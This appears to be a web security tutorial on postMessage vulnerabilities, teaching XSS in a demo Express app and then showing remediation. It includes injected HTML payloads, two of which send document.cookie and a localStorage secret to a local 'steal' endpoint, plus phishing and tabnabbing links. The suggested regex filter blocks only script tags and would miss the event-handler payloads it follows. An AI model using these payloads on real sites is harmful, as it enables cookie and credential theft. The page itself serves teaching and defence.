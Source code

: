 # `postMessage` Vulnerabilities

The following example demonstrates a `postMessage` vulnerability in a simple web application using Express and SQLite.

## Explanation of the Attack

The `postMessage` vulnerability arises from the fact that our application blindly trusts messages received through the `postMessage` API and directly manipulates the DOM without validation. An attacker can exploit this by sending malicious messages to the origin, which could lead to XSS attacks, data manipulation, etc.

## Example Attack

A malicious site could exploit the vulnerability by sending harmful messages, such as a JavaScript snippet which could be executed in the context of the origin, leading to severe security risks.

Out of the box, this example is vulnerable to a bunch of the XSS attacks we saw earlier.

A user could inject CSS with a message like this:

```html
<style>
  .message {
    background: red;
  }
</style>
```

They could inject a script.

```html
<strong onmouseover="alert(1)">Hello, friend!</strong>
```

That script _could_ steal data from the cookie.

```html
<strong onmouseover="fetch('http://localhost:4009/steal?=' + document.cookie)">
  Hello
</strong>
```

Or, honestly—anything from the client.

```html
<strong
  onmouseover="fetch('http://localhost:4009/steal?=' + localStorage.getItem('secret-storage'))"
>
  Hello
</strong>
```

Sure, you _could_ try to santize and purify everything in sight, but you're still open to phishing or just social engineering.

```html
Click <a href="http://localhost:4009/chat">here</a> to continue the chat.
```

### Tabnabbing

In fact, you _really_ don't need to inject any code.

```html
Can you look at
<a href="http://localhost:4009/innocuous" target="_blank" rel="opener">this</a>
for me?
```

## Steps to Fix and Secure the Application

1. **Validate Origin**: Ensure that messages are coming from a trusted origin.
2. **Validate Message Content**: Prevent injection attacks by validating and sanitizing input.

### Remediation Code

Modify `client/victim.ts` to implement origin and content checks:

```js
const trustedOrigin = 'http://localhost:4109'; // This may be a different port.

window.addEventListener('message', function (event) {
  // Validate event origin
  if (event.origin !== trustedOrigin) {
    console.warn('Untrusted origin:', event.origin);
    return;
  }

  // Validate data format (simple example to check for script tags)
  // Arguably, you should use DOMPurify or something similar.
  const messageData = event.data;
  if (
    typeof messageData !== 'string' ||
    /<script.*?>.*?<\/script.*?>/gi.test(messageData)
  ) {
    console.warn('Invalid message data:', messageData);
    return;
  }

  // The rest of the code to add the message…
});
```

## Detailed Steps

1. **Validate Origin**: Cross-check the `event.origin` against a list or variable containing trusted origins.

   ```js
   if (event.origin !== trustedOrigin) {
     console.warn('Untrusted origin:', event.origin);
     return;
   }
   ```

2. **Validate Content**: Ensure that the message content doesn't contain harmful scripts. More sophisticated methods can be used but simple regex can check for the presence of script tags.

   ```js
   const messageData = event.data;
   if (
     typeof messageData !== 'string' ||
     /<script.*?>.*?<\/script.*?>/gi.test(messageData)
   ) {
     console.warn('Invalid message data:', messageData);
     return;
   }
   ```

3. **Sanitize Inputs**: Tools and libraries help sanitize and validate the input thoroughly.

## Learning Resources

- [MDN `postMessage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
- [PortSwigger Web Security Academy: Cross-site scripting (XSS)](https://portswigger.net/web-security/cross-site-scripting)
- [OWASP XSS Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

By following these steps, we protect our application against `postMessage` vulnerabilities effectively, preventing XSS attacks and ensuring safe message handling.
